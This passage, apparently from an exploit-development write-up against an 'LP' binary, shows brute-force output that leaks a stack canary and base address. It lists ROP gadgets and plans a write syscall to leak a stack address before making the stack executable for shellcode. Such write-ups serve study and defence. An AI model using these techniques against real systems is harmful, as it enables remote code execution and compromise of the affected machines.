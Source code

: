 ```python
```

Running the above addition now provides us with our canary, a good return, and the derived base address:

```bash
0026
00267f
00267f7f
00267f7f0d
00267f7f0df4
00267f7f0df490
00267f7f0df4903e
canary: 0x3e90f40d7f7f2600
75
75e9
75e9a1
75e9a1b1
75e9a1b115
75e9a1b1157f
75e9a1b1157f00
75e9a1b1157f0000
good return: 0x7f15b1a1e975
base: 0x7f15b1a0d000
```

Knowing our base and having demonstrated a successful simple ROP chain to call exit, we should now be able to do something more robust.  There are many approaches we could take from here.  I chose to attempt to modify the non-executable stack to instead be executable.  From there, we can put shellcode on the stack, and find a ROP gadget to jump to our shellcode.

### But where is the stack?

First, we need to know where the stack is in address space.  We know the canary, we know the .text section base address, but we do not net know where the stack is.  There is nothing immediately evident we can target for a brute force approach, but if you recall earlier in our analysis of the LP binary, we do have some open file descriptors that we may be able to leverage here.  If we can find a way to write some data from the stack into one of these files, we may be able to leak a stack address.

To do this, let's use a `write` syscall.  We will need a couple more ROP gadgets:

```bash
0x000000000001cca2: pop rdx; ret;
0x000000000008f4fc: mov rbx, rsp; mov rsi, rbx; syscall;
```

With our original gadgets, we have a way of populating `RAX` for the syscall number, and `RDI` for the first argument.  These two additional gadgets give us the ability to populate `RDX` for the third argument, and place a pointer to the stack into `RSI` for the second argument.  The plan is to make a `write` call that looks like this:

```c
write(4, stack_pointer, 0xff);
```
